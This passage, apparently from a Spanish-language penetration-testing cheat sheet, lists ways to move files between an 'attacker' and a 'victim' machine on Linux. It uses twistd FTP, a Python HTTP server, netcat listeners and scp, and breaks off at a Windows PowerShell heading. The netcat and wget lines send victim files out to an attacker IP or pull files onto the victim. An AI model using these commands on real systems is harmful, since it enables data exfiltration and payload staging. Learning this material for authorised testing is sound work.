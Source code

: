 - **Atacante:**

```bash
twistd -n ftp -r .
```

- **Víctima:**

```bash
wget ftp://192.168.1.35:2121/FiletoTransfer
```

---

#### 🔽 Bajar archivos de la víctima (hacia la máquina atacante)

##### 1. Simple HTTP Server (Python)

- **Víctima:**

```bash
python -m SimpleHTTPServer 8080
```

- **Atacante:**

```bash
wget http://192.168.1.39:8080/FiletoDownload
```

##### 2. Netcat

- **Atacante:**

```bash
nc -lvp 4444 > FiletoDownload
```

- **Víctima:**

```bash
nc 192.168.1.35 4444 -w 3 < FiletoDownload
```

##### 3. SCP

- **Atacante:**

```bash
scp tester@192.168.1.39:/home/tester/iron/FiletoDownload .
```

---

### 🪟 **Windows**

#### 🔼 Subir archivos a la víctima

##### 1. PowerShell (DownloadFile)
